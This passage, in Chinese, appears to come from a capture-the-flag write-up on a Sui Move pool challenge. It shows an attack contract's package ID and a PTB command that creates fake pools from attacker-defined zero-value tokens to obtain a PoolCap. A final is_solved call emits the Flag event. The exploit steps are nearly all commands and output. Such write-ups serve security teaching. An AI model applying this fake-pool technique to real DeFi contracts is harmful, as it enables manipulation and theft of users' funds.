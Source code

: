**部署结果**:

- 攻击合约Package ID: `0x69adecee672848377110c4b60fa5392eac94349176068d0a877215fcf68e4a07`

### 步骤3: 创建假池子

使用PTB (Programmable Transaction Block) 创建空的池子：

```bash
# 创建TOKEN1-TOKEN2池子
sui client ptb \
  --move-call 0x2::coin::zero "<0x69adecee672848377110c4b60fa5392eac94349176068d0a877215fcf68e4a07::attack::TOKEN1>" \
  --assign token1 \
  --move-call 0x2::coin::zero "<0x69adecee672848377110c4b60fa5392eac94349176068d0a877215fcf68e4a07::attack::TOKEN2>" \
  --assign token2 \
  --move-call 0xa4ed91928b7eb37e7bed0e8bea09dfcccb8a5ae41b908ebb222701c637294e1a::pool::create_pool \
    "<0x69adecee672848377110c4b60fa5392eac94349176068d0a877215fcf68e4a07::attack::TOKEN1,0x69adecee672848377110c4b60fa5392eac94349176068d0a877215fcf68e4a07::attack::TOKEN2>" \
    @0x2412efd0b085591054c9ea6432bce9a6f1a98dcd55400a64f913c1489e962001 0 token1 token2 \
  --assign pool_cap1 \
  --transfer-objects "[pool_cap1]" @0x5284d0a3eb3c5eb84fdd7f27c7e60f486315e99d9f2826b6c35f0e8b0981c6fe \
  --gas-budget 20000000
```

**结果**: 成功创建TOKEN1-TOKEN2池子，获得PoolCap

类似地创建TOKEN3-TOKEN4池子。

### 步骤4: 触发Flag

```bash
sui client call --package 0xa4ed91928b7eb37e7bed0e8bea09dfcccb8a5ae41b908ebb222701c637294e1a \
  --module pool --function is_solved \
  --args 0x2412efd0b085591054c9ea6432bce9a6f1a98dcd55400a64f913c1489e962001 \
  --gas-budget 20000000
```

**结果**: **攻击成功！**

## 攻击结果

**成功交易哈希**: `JYBCFLXdhzw1kNus4fVRwdvwYVrVQ29HP5Ut1xLXsQG`

在交易事件中可以看到Flag事件：

```
EventType: 0xa4ed91928b7eb37e7bed0e8bea09dfcccb8a5ae41b908ebb222701c637294e1a::pool::Flag
ParsedJSON:
  ┌──────┬────────────────────────────────────────────────────────────────────┐
  │ user │ 0x5284d0a3eb3c5eb84fdd7f27c7e60f486315e99d9f2826b6c35f0e8b0981c6fe │
  └──────┴────────────────────────────────────────────────────────────────────┘
```
